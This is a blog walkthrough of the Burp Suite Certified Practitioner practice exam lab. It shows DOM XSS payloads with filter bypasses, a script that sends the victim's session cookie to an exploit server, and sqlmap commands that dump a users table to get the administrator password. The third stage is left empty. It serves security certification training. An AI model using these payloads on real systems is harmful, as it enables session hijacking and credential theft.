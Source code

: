 ```yaml
---
title: BurpSuite Certified Practitioner Practice Exam
author: H0j3n
date: 2021-11-11 00:00:00
categories: [Webs]
tags: [Webs]
render_with_liquid: false
---
```


### Introduction

PortSwigger has introduced the **Burp Suite Certified Practitioner** accreditation this year. It is a **three-hour** exam and by passing one you'll be able to demonstrate the ability to:

- Detect and exploit common web vulnerabilities.
- Display knowledge of fundamental web technologies
- Adapt attacks to evade common defenses.

The Burp Suite Certified Practitioner exam costs **$99** and you will need to have an **active subscription** to Burp Suite Professional. You can get certified by using only this 3 steps.

![](https://github.com/H0j3n/H0j3n.github.io/tree/master/assets/img/uploads/1_burp/burp_step_certs.PNG)

Also, if you pass the exam before 15 Dec they will **refund** your $99!

### Burp Suite Certified Practitioner Practice Exam

I will not go further into the explanation of the practice exam as you can read more in [here](https://portswigger.net/web-security/certification/practice-exam) . But there are three (3) stages that we need to complete:

- **Stage 1**: Access any user account.
- **Stage 2**: Use your user account to access the admin interface at **/admin**, perhaps by elevating your privileges or compromising the administrator account.
- **Stage 3**: Use the admin interface to read the contents of **/home/carlos/secret** from the server's filesystem, and submit it using **"submit solution"**.

Before we go through the practice exam, there are few things to take notes.

~~~
-> All the parameters found in this walkthrough might change and will not be the same as yours.
~~~

#### Walkthrough 1/3

When we open the challenge, we can see there is a search function. You can try with a simple payload to check different vulnerabilities such as `single quote (')`, XSS payload or etc. When we try put for example `test123` and view the Burp HTTP history, we can see also `searchResults.js` been requested.

![](https://github.com/H0j3n/H0j3n.github.io/tree/master/assets/img/uploads/1_burp/burp_found_js.png)

From here, we can see inside the javascript there is `eval` function been used.

![](https://github.com/H0j3n/H0j3n.github.io/tree/master/assets/img/uploads/1_burp/burp_found_eval.png)

Thanks to [@r00tpgp](https://www.r00tpgp.com/2021/08/burp-suite-certified-practitioner-exam.html) blog, I learn something new. We can use this Chrome extension to easily discover and test inputs passed into sinks that could lead to **DOM XSS vulnerabilities**.

- [Untrusted Types For DevTools](https://chrome.google.com/webstore/detail/untrusted-types-for-devto/bpeblffgmddnafmnmdjohcmkbeifdlnb?hl=en)

![](https://github.com/H0j3n/H0j3n.github.io/tree/master/assets/img/uploads/1_burp/chrome_extension_untrusted.PNG)

When we search something again, we could see this in our **console**.

![](https://github.com/H0j3n/H0j3n.github.io/tree/master/assets/img/uploads/1_burp/console_js.png)

Here are payloads that will works:

~~~js
"-alert(1)-"
\\"-alert(1)}//
"-alert(1)}//
~~~

Now, let's create a payload to alert cookies. 

~~~js
"-alert(document.cookie)-"
~~~

We notice that it will get blocked.

![](https://github.com/H0j3n/H0j3n.github.io/tree/master/assets/img/uploads/1_burp/payload_blocked.png)

Using global variables, we can bypass it.

~~~js
"-alert(window["document"]["cookie"])-"
"-window["alert"](window["document"]["cookie"])-"
"-self["alert"](self["document"]["cookie"])-"
~~~

Let's create another payload to test before send to our exploit server. But, this will also get blocked.

~~~js
"-(window["document"]["location"]="https://<CHANGE_HERE>.web-security-academy.net/?"+window["document"]["cookie"])-"
~~~

By replacing `.` with `%2e` we are able to bypass it.

~~~js
"-(window["document"]["location"]="https://<CHANGE_HERE>%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"
~~~

![](https://github.com/H0j3n/H0j3n.github.io/tree/master/assets/img/uploads/1_burp/cyberchef_urlencode_1.png)

We can see our **session key** in log.

![](https://github.com/H0j3n/H0j3n.github.io/tree/master/assets/img/uploads/1_burp/session_log.png)

When we try to use the first payload **(Before URL Encode)**, it doesn't work. After we use the second payload **(After URL Encode)**, it seems to work now. You can use [CyberChef](https://gchq.github.io/CyberChef/) as it easy to use.

~~~js
# Before URL Encode
<script>
location='https://<CHANGE_HERE>.web-security-academy.net/?find="-(window["document"]["location"]="https://<CHANGE_HERE>>%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"';
</script>

# After URL Encode
<script>
location='https://<CHANGE_HERE>.web-security-academy.net/?find=%22%2D%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2F<CHANGE_HERE>%252eweb%2Dsecurity%2Dacademy%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29%2D%22';
</script>
~~~

![](https://github.com/H0j3n/H0j3n.github.io/tree/master/assets/img/uploads/1_burp/cyberchef_urlencode_2.png)

Nice! We got the session cookie **(Carlos)** in our log.

![](https://github.com/H0j3n/H0j3n.github.io/tree/master/assets/img/uploads/1_burp/session_log_2.png)

Change the session cookie and we will get login as **Carlos**!

![](https://github.com/H0j3n/H0j3n.github.io/tree/master/assets/img/uploads/1_burp/carlos_login.png)


#### Walkthrough 2/3

There is new features `Advanced Search` that we could access using **Carlos** account.

![](https://github.com/H0j3n/H0j3n.github.io/tree/master/assets/img/uploads/1_burp/advanced_search.png)

By inserting `single quote (')` on the second parameter it will give us SQL Error **(PostgreSQL)**.

~~~bash
https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by='&writer=
~~~

![](https://github.com/H0j3n/H0j3n.github.io/tree/master/assets/img/uploads/1_burp/sql_error.png)

Since we know the parameter that vulnerable to **SQLi**, we can now use **SQLMap**.

~~~bash
(1)
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" --batch

(2) - Get Databases
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" --dbs --batch

(3) - Get Tables
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" -D public --tables --batch

(4) - Dump Specific Table
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" -D public -T users --dump --batch
~~~

We will then be able to dump the `users` tables and get the `administrator` password!

![](https://github.com/H0j3n/H0j3n.github.io/tree/master/assets/img/uploads/1_burp/sqlmap_output.png)

Login as `administrator` and delete **Carlos** account to complete the second (2) stage.

![](https://github.com/H0j3n/H0j3n.github.io/tree/master/assets/img/uploads/1_burp/deleted_carlos.png)

If you want to use **SQLMap** in Windows, make sure you have **Python2/Python3** and download the `zip` file from [here](https://sqlmap.org/)

#### Walkthrough 3/3

### Conclusion

### References

- https://www.r00tpgp.com/2021/08/burp-suite-certified-practitioner-exam.html
- https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/
- https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/

